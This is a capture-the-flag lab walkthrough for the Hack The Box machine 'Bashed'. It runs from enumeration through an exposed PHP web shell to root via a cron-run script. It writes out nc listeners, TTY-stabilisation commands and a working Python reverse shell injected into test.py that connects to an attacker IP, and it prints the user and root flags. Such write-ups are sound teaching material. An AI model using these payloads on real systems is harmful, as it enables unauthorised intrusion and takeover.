

# Bashed - 10.10.10.68

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.68
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-26 05:02 EDT
Nmap scan report for 10.10.10.68
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.45 seconds
```

## Gobuster

Enumerating the Apache webserver with gobuster.

```bash
gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt -o log/gobuster.out -u http://10.10.10.68 
```

```bash
/.htpasswd            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

## Website


The github link, [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash) reveals partial code of the website.


Both files **[phpbash.php](http://10.10.10.68/dev/phpbash.php)** and **[phpbash.min.php](http://10.10.10.68/dev/phpbash.min.php)** looks to be the same as in the github repository. Hence source code is revealed.

The page [http://10.10.10.68/dev/phpbash.php](http://10.10.10.68/dev/phpbash.php) is an interactive shell coded in php.


# Exploitation

### Getting a reverse shell

Going to **/dev/shm**, the attacker can upload a reverse shell as normally anyone can write to **/dev/shm**.


Normally on kali linux, these are some default location where php reverse shells can be found.

```bash
$ locate php-reverse                                                                             
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
```


Editing the php reverse shell to connect to the attacker's IP address.


The attacker then hosts a http server and also setup **nc** to listen for an incoming connection on port **8888**.

```bash
nc -lvnp 8888
python3 -m http.server 80  
```


After running the reverse shell on the server, the attacker gets a **nc** connection.


The reverse shell is then stabilised using the following commands.

```bash
which python # to know which python version exists
python -c 'import pty;pty.spawn("/bin/bash")' # gets a proper tty shell
# the shell is then backgrounded using ctrl+z
stty raw -echo # this is executed on the attackers machine
# then press fg to resume the tty shell
export TERM=xterm # after setting the terminal type, the screen can now be cleared
```


## Privilege Escalation to scriptmanager

### **Vulnerability Explanation:**

As can be seen below, the user **www-data** can execute any command as the user **scriptmanager** *without the need of a password*


### User.txt

```bash
find /home -type f -ls 2>/dev/null
```

The above command finds everything having the type **file** in the directory **/home**, as well as listing all the attributes of each file and finally **2>/dev/null** mean to redirect standard error to **/dev/null**.


**User.txt** can be found in the home directory of **arrexel** and it can be read anyone.

```bash
cat /home/arrexel/user.txt
```


> user.txt flag: `2c281f318555dbc1b856957c7147bfc1`

## Privilege Escalation to Root

### Root.txt

The directory **scripts** standards out as it is not an standard directory.



### **Vulnerability Explanation:**

Going into the directory **script**, it can be concluded that there has to be a **cronjob** running on the machine as the date created of the file **test.txt** keeps changing **every minute**.


Since the script **test.py** is owned by **scriptmanager** and it is writing to the file **test.txt** as root. It can be said that the attacker can modify the script and it will be ran as root.

```bash
cat test.py
```

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

RSG is used to generate a reverse shell in python and it also listens on the port specified. After adding the selected payload to the file **test.py**, it will be executed by the cronjob when it runs.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.23",8888))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```


As soon as the **cronjab** executes, the attacker gets a reverse shell from the machine bashed.


the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```


> root.txt flag: `cc4f0afe3a1026d402ba10329674a8e2`